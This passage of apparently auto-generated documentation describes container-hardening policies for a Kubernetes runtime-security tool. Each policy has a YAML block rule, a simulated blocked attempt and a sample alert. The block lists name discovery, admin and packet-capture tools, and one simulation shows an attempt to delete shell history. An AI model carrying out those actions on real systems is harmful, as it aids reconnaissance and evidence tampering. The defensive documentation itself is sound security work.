In an attack scenario, a hacker may attempt to inject malicious scripts into the /tmp folder through a web application exploit. Once the script is uploaded, the attacker may try to execute it on the server in order to take it down. By hardening the /tmp folder, the attacker will not be able to execute the script, preventing such attacks. It's essential to implement these security measures to protect against these types of attacks and ensure the safety of the system.<br /> **Attack Type** System Failure, System Breach<br /> **Actual Attack** Shields Health Care Group data breach, MOVEit Breach

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id: 1.1.5
- Control-Id: 1.1.10

## Policy
### /tmp/ noexec
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: ksp-block-exec-inside-tmp
  namespace: wordpress-mysql
spec:
  tags:
  - CIS
  - CIS-control-1.1.5
  message: Alert! Execution attempted inside tmp folder
  selector:
    matchLabels:
      app: wordpress
  process:
    matchDirectories:
    - dir: /tmp/
      recursive: true
  action: Block
```
#### Simulation
```sh
root@wordpress-fb448db97-wj7n7:/var/tmp# ls /var/tmp                                                                    xvzf                                                                                                                    
root@wordpress-fb448db97-wj7n7:/var/tmp# /var/tmp/xvzf                                                                  
bash: /var/tmp/xvzf: Permission denied                                                                                  
root@wordpress-fb448db97-wj7n7:/var/tmp#  
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "d3mo",
  "ContainerID": "548176888fca6bb6d66633794f3d5f9d54930a9d9f43d4f05c11de821c758c0f",
  "ContainerImage": "docker.io/library/wordpress:4.8-apache@sha256:6216f64ab88fc51d311e38c7f69ca3f9aaba621492b4f1fa93ddf63093768845",
  "ContainerName": "wordpress",
  "Data": "syscall=SYS_OPEN flags=O_WRONLY|O_CREAT|O_EXCL|O_TRUNC",
  "Enforcer": "AppArmor",
  "HostName": "master-node",
  "HostPID": 30490,
  "HostPPID": 6119,
  "Labels": "app=wordpress",
  "Message": "Alert! Execution attempted inside /tmp",
  "NamespaceName": "wordpress-mysql",
  "Operation": "File",
  "Owner": {
    "Name": "wordpress",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 193,
  "PPID": 6119,
  "ParentProcessName": "/var/lib/rancher/k3s/data/24a53467e274f21ca27cec302d5fbd58e7176daf0a47a2c9ce032ee877e0979a/bin/containerd-shim-runc-v2",
  "PodName": "wordpress-fb448db97-wj7n7",
  "PolicyName": "ksp-block-exec-inside-tmp",
  "ProcessName": "/bin/bash",
  "Resource": "/tmp/sh-thd-2512146865",
  "Result": "Permission denied",
  "Severity": "1",
  "Source": "/bin/bash",
  "Tags": "CIS,CIS_Linux",
  "Timestamp": 1696492433,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-05T07:53:53.259403Z",
  "cluster_id": "2302",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[STIG no exec in /tmp](https://www.stigviewer.com/stig/red_hat_enterprise_linux_6/2016-12-16/finding/V-57569)<br />[The biggest ransomeware attacks in history](https://www.techtarget.com/searchsecurity/tip/The-biggest-ransomware-attacks-in-history)<br />[Shields Healthcare Group Data Breach](https://www.idstrong.com/sentinel/shields-healthcare-group-data-breach/)<br />



</details>


<details><summary><h2>Admin tools: Do not allow execution of administrative/maintenance tools inside the pods.</h2></summary>

### Description
Adversaries may abuse a container administration service to execute commands within a container. A container administration service such as the Docker daemon, the Kubernetes API server, or the kubelet may allow remote management of containers within an environment.

### Attack Scenario
It's important to note that attackers with permissions could potentially run 'kubectl exec' to execute malicious code and compromise resources within a cluster. It's crucial to monitor the activity within the cluster and take proactive measures to prevent these attacks from occurring.<br /> **Attack Type** Command Injection, Lateral Movements, etc.<br /> **Actual Attack** Target cyberattack, Supply Chain Attacks

### Compliance
- NIST_800-53_AU-2
- MITRE_T1609_container_administration_command
- NIST_800-53_SI-4

## Policy
### Admin tools
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: harden-dvwa-web-k8s-client-tool-exec
  namespace: default
spec:
  action: Block
  message: Alert! k8s client tool executed inside container.
  process:
    matchPaths:
    - path: /usr/local/bin/kubectl
    - path: /usr/bin/kubectl
    - path: /usr/local/bin/docker
    - path: /usr/bin/docker
    - path: /usr/local/bin/crictl
    - path: /usr/bin/crictl
  selector:
    matchLabels:
      app: dvwa-web
      tier: frontend
  severity: 5
  tags:
  - MITRE_T1609_container_administration_command
  - MITRE_TA0002_execution
  - MITRE_T1610_deploy_container
  - MITRE
  - NIST_800-53
  - NIST_800-53_AU-2
  - NIST_800-53_SI-4
  - NIST
```
#### Simulation
```sh
kubectl exec -it dvwa-web-566855bc5b-4j4vl -- bash
root@dvwa-web-566855bc5b-4j4vl:/var/www/html# kubectl
bash: /usr/bin/kubectl: Permission denied
root@dvwa-web-566855bc5b-4j4vl:/var/www/html#
```

#### Expected Alert
```
{
  "ATags": null,
  "Action": "Block",
  "ClusterName": "aditya",
  "ContainerID": "32015ebeea9e1f4d4e7dbf6608c010ef2b34c48f1af11a5c6f0ea2fd27c6ba6c",
  "ContainerImage": "docker.io/cytopia/dvwa:php-8.1@sha256:f7a9d03b1dfcec55757cc39ca2470bdec1618b11c4a51052bb4f5f5e7d78ca39",
  "ContainerName": "dvwa",
  "Data": "syscall=SYS_EXECVE",
  "Enforcer": "AppArmor",
  "HashID": "1167b21433f2a4e78a4c6875bb34232e6a2b3c8535e885bb4f9e336fd2801d92",
  "HostName": "aditya",
  "HostPID": 38035,
  "HostPPID": 37878,
  "Labels": "tier=frontend,app=dvwa-web",
  "Message": "",
  "NamespaceName": "default",
  "Operation": "Process",
  "Owner": {
    "Name": "dvwa-web",
    "Namespace": "default",
    "Ref": "Deployment"
  },
  "PID": 554,
  "PPID": 548,
  "PodName": "dvwa-web-566855bc5b-4j4vl",
  "PolicyName": "DefaultPosture",
  "ProcessName": "/usr/bin/kubectl",
  "Resource": "/usr/bin/kubectl",
  "Result": "Permission denied",
  "Severity": "",
  "Source": "/bin/bash",
  "Tags": "",
  "Timestamp": 1696326880,
  "Type": "MatchedPolicy",
  "UID": 0,
  "UpdatedTime": "2023-10-03T09:54:40.056501Z",
  "cluster_id": "3896",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "workload": "1"
}
```

## References
[MITRE ATT&CK execution in k8s](https://cloud.redhat.com/blog/protecting-kubernetes-against-mitre-attck-execution#:~:text='kubectl%20exec'%20allows%20a%20user,compromise%20resources%20within%20a%20cluster)<br />[Target Data Breach](https://www.idstrong.com/sentinel/that-one-time-target-lost-everything/)<br />



</details>


<details><summary><h2>Discovery tools: Do not allow discovery/search of tools/configuration.</h2></summary>

### Description
Adversaries may attempt to get a listing of services running on remote hosts and local network infrastructure devices, including those that may be vulnerable to remote software exploitation. Common methods to acquire this information include port and/or vulnerability scans using tools that are brought onto a system

### Attack Scenario
Adversaries can potentially use information related to services, remote hosts, and local network infrastructure devices, including those that may be vulnerable to remote software exploitation to perform malicious attacks like exploiting open ports and injecting payloads to get remote shells. It's crucial to take proactive measures to prevent these attacks from occurring, such as implementing proper network segmentation and hardening network devices.<br /> **Attack Type** Reconnaissance, Brute force, Command Injection<br /> **Actual Attack** Microsoft exchange server attack 2021

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id: 6.3

## Policy
### Discovery tools
```yaml
Version: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: harden-dvwa-web-network-service-scanning
  namespace: default
spec:
  action: Block
  message: Network service has been scanned!
  process:
    matchPaths:
    - path: /usr/bin/netstat
    - path: /bin/netstat
    - path: /usr/sbin/ip
    - path: /usr/bin/ip
    - path: /sbin/ip
    - path: /bin/ip
    - path: /usr/sbin/iw
    - path: /sbin/iw
    - path: /usr/sbin/ethtool
    - path: /sbin/ethtool
    - path: /usr/sbin/ifconfig
    - path: /sbin/ifconfig
    - path: /usr/sbin/arp
    - path: /sbin/arp
    - path: /usr/sbin/iwconfig
    - path: /sbin/iwconfig
  selector:
    matchLabels:
      app: dvwa-web
      tier: frontend
  severity: 5
  tags:
  - MITRE
  - FGT1046
  - CIS
```
#### Simulation
```sh
kubectl exec -it dvwa-web-566855bc5b-xtgwq -- bash
root@dvwa-web-566855bc5b-xtgwq:/var/www/html# netstat
bash: /bin/netstat: Permission denied
root@dvwa-web-566855bc5b-xtgwq:/var/www/html# ifconfig
bash: /sbin/ifconfig: Permission denied
root@dvwa-web-566855bc5b-xtgwq:/var/www/html#
root@dvwa-web-566855bc5b-xtgwq:/var/www/html# arp
bash: /usr/sbin/arp: Permission denied
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "no-trust",
  "ContainerID": "e8ac2e227d293e76ab81a34945b68f72a2618ed3275ac64bb6a82f9cd2d014f1",
  "ContainerImage": "docker.io/cytopia/dvwa:php-8.1@sha256:f7a9d03b1dfcec55757cc39ca2470bdec1618b11c4a51052bb4f5f5e7d78ca39",
  "ContainerName": "dvwa",
  "Data": "syscall=SYS_EXECVE",
  "Enforcer": "AppArmor",
  "HostName": "aditya",
  "HostPID": 35592,
  "HostPPID": 35557,
  "Labels": "tier=frontend,app=dvwa-web",
  "Message": "Network service has been scanned!",
  "NamespaceName": "default",
  "Operation": "Process",
  "Owner": {
    "Name": "dvwa-web",
    "Namespace": "default",
    "Ref": "Deployment"
  },
  "PID": 989,
  "PPID": 983,
  "ParentProcessName": "/bin/bash",
  "PodName": "dvwa-web-566855bc5b-npjn8",
  "PolicyName": "harden-dvwa-web-network-service-scanning",
  "ProcessName": "/bin/netstat",
  "Resource": "/bin/netstat",
  "Result": "Permission denied",
  "Severity": "5",
  "Source": "/bin/bash",
  "Tags": "MITRE,FGT1046,CIS",
  "Timestamp": 1696501152,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-05T10:19:12.809606Z",
  "cluster_id": "4225",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[MITRE Network Service Discovery](https://attack.mitre.org/techniques/T1046/)<br />



</details>


<details><summary><h2>Logs delete: Do not allow external tooling to delete logs/traces of critical components.</h2></summary>

### Description
Adversaries may delete or modify artifacts generated within systems to remove evidence of their presence or hinder defenses. Various artifacts may be created by an adversary or something that can be attributed to an adversary’s actions. Typically these artifacts are used as defensive indicators related to monitored events, such as strings from downloaded files, logs that are generated from user actions, and other data analyzed by defenders. Location, format, and type of artifact (such as command or login history) are often specific to each platform. 

### Attack Scenario
It's important to note that removal of indicators related to intrusion activity may interfere with event collection, reporting, or other processes used to detect such activity. This can compromise the integrity of security solutions by causing notable events to go unreported. Additionally, this activity may impede forensic analysis and incident response, due to a lack of sufficient data to determine what occurred. It's crucial to ensure that all relevant indicators are properly monitored and reported to prevent such issues from occurring.<br /> **Attack Type** Integrity Threats, Data Manipulation **Actual Attack** NetWalker, Conti, DarkSide RaaS 

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id: 6.6
- Control-Id: 7.6.2
- Control-Id: 7.6.3
- NIST_800-53_CM-5

## Policy
### Logs delete
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: harden-nginx-shell-history-mod
  namespace: default
spec:
  action: Block
  file:
    matchPaths:
    - fromSource:
      - path: /usr/bin/shred
      - path: /usr/bin/rm
      - path: /bin/mv
      - path: /bin/rm
      - path: /usr/bin/mv
      path: /root/*_history
    - fromSource:
      - path: /usr/bin/shred
      - path: /usr/bin/rm
      - path: /bin/rm
      - path: /bin/mv
      - path: /usr/bin/mv
      path: /home/*/*_history
  message: Alert! shell history modification or deletion detected and prevented
  process:
    matchPaths:
    - path: /usr/bin/shred
    - path: /usr/bin/rm
    - path: /bin/mv
    - path: /bin/rm
    - path: /usr/bin/mv
  selector:
    matchLabels:
      app: nginx
  severity: 5
  tags:
  - CIS
  - NIST_800-53
  - NIST_800-53_CM-5
  - NIST_800-53_AU-6(8)
  - MITRE_T1070_indicator_removal_on_host
  - MITRE
  - MITRE_T1036_masquerading
```
#### Simulation
```sh
kubectl exec -it nginx-77b4fdf86c-x7sdm -- bash
root@nginx-77b4fdf86c-x7sdm:/# rm ~/.bash_history
rm: cannot remove '/root/.bash_history': Permission denied
root@nginx-77b4fdf86c-x7sdm:/# rm ~/.bash_history
rm: cannot remove '/root/.bash_history': Permission denied
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "0-trust",
  "ContainerID": "20a6333c6a46e0da32b3062f0ba76e9aed4fc5ef51f5ee8aec5b980963cedea3",
  "ContainerImage": "docker.io/library/nginx:latest@sha256:32da30332506740a2f7c34d5dc70467b7f14ec67d912703568daff790ab3f755",
  "ContainerName": "nginx",
  "Data": "syscall=SYS_UNLINKAT flags=",
  "Enforcer": "AppArmor",
  "HostName": "aditya",
  "HostPID": 43917,
  "HostPPID": 43266,
  "Labels": "app=nginx",
  "NamespaceName": "default",
  "Operation": "File",
  "Owner": {
    "Name": "nginx",
    "Namespace": "default",
    "Ref": "Deployment"
  },
  "PID": 392,
  "PPID": 379,
  "ParentProcessName": "/usr/bin/bash",
  "PodName": "nginx-77b4fdf86c-x7sdm",
  "PolicyName": "DefaultPosture",
  "ProcessName": "/usr/bin/rm",
  "Resource": "/root/.bash_history",
  "Result": "Permission denied",
  "Source": "/usr/bin/rm /root/.bash_history",
  "Timestamp": 1696577978,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-06T07:39:38.182538Z",
  "cluster_id": "4291",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[MITRE Indicator Removal](https://attack.mitre.org/techniques/T1070/)<br />



</details>


<details><summary><h2>ICMP control: Do not allow scanning tools to use ICMP for scanning the network.</h2></summary>

### Description
The Internet Control Message Protocol (ICMP) allows Internet hosts to notify each other of errors and allows diagnostics and troubleshooting for system administrators. Because ICMP can also be used by a potential adversary to perform reconnaissance against a target network, and due to historical denial-of-service bugs in broken implementations of ICMP, some network administrators block all ICMP traffic as a network hardening measure

### Attack Scenario
Adversaries may use scanning tools that utilize Internet Control Message Protocol (ICMP) to perform reconnaissance against a target network and identify potential loopholes. It's crucial to monitor network traffic and take proactive measures to prevent these attacks from occurring, such as implementing proper firewall rules and network segmentation. Additionally, it's important to stay up-to-date with the latest security patches to prevent known vulnerabilities from being exploited.<br /> **Attack Type** Network Flood, DoS(Denial of Service)<br /> **Actual Attack** Ping of Death(PoD)

### Compliance
- ICMP Control

## Policy
### ICMP Control
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: restrict-scanning-tools
  namespace: default
spec:
  severity: 4
  selector:
    matchLabels:
      app: nginx
  network:
    matchProtocols:
    - protocol: icmp
      fromSource:
      - path: /usr/bin/ping
    - protocol: udp
      fromSource:
      - path: /usr/bin/ping
  action: Allow
  message: Scanning tool has been detected
```
#### Simulation
```sh
kubectl exec -it nginx-77b4fdf86c-x7sdm -- bash
root@nginx-77b4fdf86c-x7sdm:/# hping3 www.google.com
Unable to resolve 'www.google.com'
root@nginx-77b4fdf86c-x7sdm:/# hping3 127.0.0.1
Warning: Unable to guess the output interface
[get_if_name] socket(AF_INET, SOCK_DGRAM, 0): Permission denied
[main] no such device
root@nginx-77b4fdf86c-x7sdm:/# ping google.com
PING google.com (216.58.200.206) 56(84) bytes of data.
64 bytes from nrt12s12-in-f206.1e100.net (216.58.200.206): icmp_seq=1 ttl=109 time=51.9 ms
64 bytes from nrt12s12-in-f206.1e100.net (216.58.200.206): icmp_seq=2 ttl=109 time=60.1 ms
^C
--- google.com ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1002ms
rtt min/avg/max/mdev = 51.917/56.005/60.094/4.088 ms
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "0-trust",
  "ContainerID": "20a6333c6a46e0da32b3062f0ba76e9aed4fc5ef51f5ee8aec5b980963cedea3",
  "ContainerImage": "docker.io/library/nginx:latest@sha256:32da30332506740a2f7c34d5dc70467b7f14ec67d912703568daff790ab3f755",
  "ContainerName": "nginx",
  "Data": "syscall=SYS_SOCKET",
  "Enforcer": "AppArmor",
  "HostName": "aditya",
  "HostPID": 86904,
  "HostPPID": 86860,
  "Labels": "app=nginx",
  "NamespaceName": "default",
  "Operation": "Network",
  "Owner": {
    "Name": "nginx",
    "Namespace": "default",
    "Ref": "Deployment"
  },
  "PID": 1064,
  "PPID": 1058,
  "ParentProcessName": "/usr/bin/bash",
  "PodName": "nginx-77b4fdf86c-x7sdm",
  "PolicyName": "DefaultPosture",
  "ProcessName": "/usr/sbin/hping3",
  "Resource": "domain=AF_INET type=SOCK_DGRAM|SOCK_NONBLOCK|SOCK_CLOEXEC protocol=0",
  "Result": "Permission denied",
  "Source": "/usr/sbin/hping3 www.google.com",
  "Timestamp": 1696593032,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-06T11:50:32.098937Z",
  "cluster_id": "4291",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```





</details>


<details><summary><h2>Restrict Capabilities: Do not allow capabilities that can be leveraged by the attacker.</h2></summary>

### Description
Containers run with a default set of capabilities as assigned by the Container Runtime. Capabilities are parts of the rights generally granted on a Linux system to the root user. In many cases applications running in containers do not require any capabilities to operate, so from the perspective of the principal of least privilege use of capabilities should be minimized.

### Attack Scenario
Kubernetes by default connects all the containers running in the same node (even if they belong to different namespaces) down to Layer 2 (ethernet). Every pod running in the same node is going to be able to communicate with any other pod in the same node (independently of the namespace) at ethernet level (layer 2). This allows a malicious containers to perform an ARP spoofing attack to the containers on the same node and capture their traffic.<br /> **Attack Type** Reconnaissance, Spoofing<br /> **Actual Attack** Recon through P.A.S. Webshell, NBTscan

### Compliance
- CIS Kubernetes
- Control Id: 5.2.8 - Minimize the admission of containers with the NET_RAW capability
- Control Id: 5.2.9 - Minimize the admission of containers with capabilities assigned

## Policy
### Restrict Capabilities
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: ksp-ubuntu-1-cap-net-raw-block
  namespace: multiubuntu
spec:
  severity: 1
  selector:
    matchLabels:
      container: ubuntu-1
  capabilities:
    matchCapabilities:
    - capability: net_raw
  action:
    Block
```
#### Simulation
```sh
root@ubuntu-1-deployment-f987bd4d6-xzcb8:/# tcpdump
tcpdump: eth0: You don't have permission to capture on that device
(socket: Operation not permitted)
root@ubuntu-1-deployment-f987bd4d6-xzcb8:/#    
```

#### Expected Alert
```
{
    "Action":"Block",
    "ClusterName":"k3sn0d3",
    "ContainerID":"aaf2118edcc20b3b04a0fae6164f957993bf3c047fd8cb33bc37ac7d0175e848",
    "ContainerImage":"docker.io/kubedig/ubuntu-w-utils:0.1@sha256:b4693b003ed1fbf7f5ef2c8b9b3f96fd853c30e1b39549cf98bd772fbd99e260",
    "ContainerName":"ubuntu-1-container",
    "Data":"syscall=SYS_SOCKET",
    "Enforcer":"AppArmor",
    "HashID":"dd12f0f12a75b30d47c5815f93412f51b259b74ac0eccc9781b6843550f694a3",
    "HostName":"worker-node02",
    "HostPID":38077,
    "HostPPID":38065,
    "Labels":"container=ubuntu-1 group=group-1",
    "Message":"",
    "NamespaceName":"multiubuntu",
    "Operation":"Network",
    "Owner":{
        "Name":"ubuntu-1-deployment",
        "Namespace":"multiubuntu",
        "Ref":"Deployment"
    },
    "PID":124,
    "PPID":114,
    "PodName":"ubuntu-1-deployment-f987bd4d6-xzcb8",
    "PolicyName":"ksp-ubuntu-1-cap-net-raw-block",
    "ProcessName":"/usr/sbin/tcpdump",
    "Resource":"domain=AF_PACKET type=SOCK_RAW protocol=768",
    "Result":"Operation not permitted",
    "Severity":"1",
    "Source":"/usr/sbin/tcpdump",
    "Tags":"",
    "Timestamp":1705405378,
    "Type":"MatchedPolicy",
    "UID":0,
    "UpdatedTime":"2024-01-16T11:42:58.662928Z",
    "UpdatedTimeISO":"2024-01-16T11:42:58.662Z",
    "cluster_id":"16402",
    "component_name":"kubedig",
    "instanceGroup":"0",
    "instanceID":"0",
    "workload":"1"
}
```

## References
[MITRE Network Service Discovery](https://attack.mitre.org/techniques/T1046/)<br />



</details>

<!-- (This is an auto-generated file. Do not edit manually.) -->

